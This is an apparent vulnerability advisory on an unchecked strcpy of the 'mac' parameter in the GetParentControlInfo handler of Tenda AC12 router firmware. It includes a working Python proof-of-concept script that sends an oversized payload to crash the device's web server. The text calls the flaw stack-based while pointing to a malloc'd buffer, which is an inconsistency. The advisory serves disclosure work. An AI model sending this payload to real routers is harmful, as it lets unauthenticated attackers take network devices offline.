# Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC1206 (AC1206V1.0RTL_V15.03.06.23)
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC12 device running firmware version AC1206V1.0RTL_V15.03.06.23. Due to the lack of restrictions on certain parameters and the absence of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.`/goform/GetParentControlInfo``initWebs``formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC12 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability was discovered by analyzing the firmware (US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → initWebs → formDefineTendDa → GetParentControlInfo`

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE4.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE3.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE2.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/formdefinetenda.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE1.png)

The program retrieves the user input parameter "mac". The `strcpy` function in the figure below copies content from `mac_addr` to `pc_info->mac_addr` without checking the size of the target buffer. `pc_info = (parent_control_info *)malloc(0x254u);` where 0x254 is 596 bytes. If the length of `mac_addr` exceeds the buffer of `pc_info->mac_addr`, an overflow will occur.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, a carefully designed payload at the interface path `/goform/GetParentControlInfo` can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using Python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 51200
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.31.12/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` (note that this file is for the MIPS little-endian architecture, and IDA needs to be used to modify `httpd` to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/mips%E5%B0%8F%E7%AB%AF%E4%BF%AE%E6%94%B9.png)


As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/payload%26%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%BF%90%E8%A1%8C%E8%84%9A%E6%9C%AC%E8%A7%A6%E5%8F%91%E6%A0%88%E6%BA%A2%E5%87%BA.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.

